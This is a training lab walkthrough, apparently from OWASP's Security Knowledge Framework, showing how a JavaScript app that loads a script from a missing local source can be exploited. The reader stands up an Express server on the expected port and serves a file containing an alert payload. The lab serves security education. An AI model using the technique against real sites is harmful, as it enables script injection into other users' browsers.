 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-untrusted-sources-js
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-untrusted-sources-js
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use nodeJs this time:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname));
app.use(express.urlencoded({ extended: true }));

app.get("/:path", (req, res) => {
  res.sendFile("/script_provider/" + req.params.path);
});

const port = process.env.PORT || 8081;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script_provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
npm install express
node script_provider.js
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
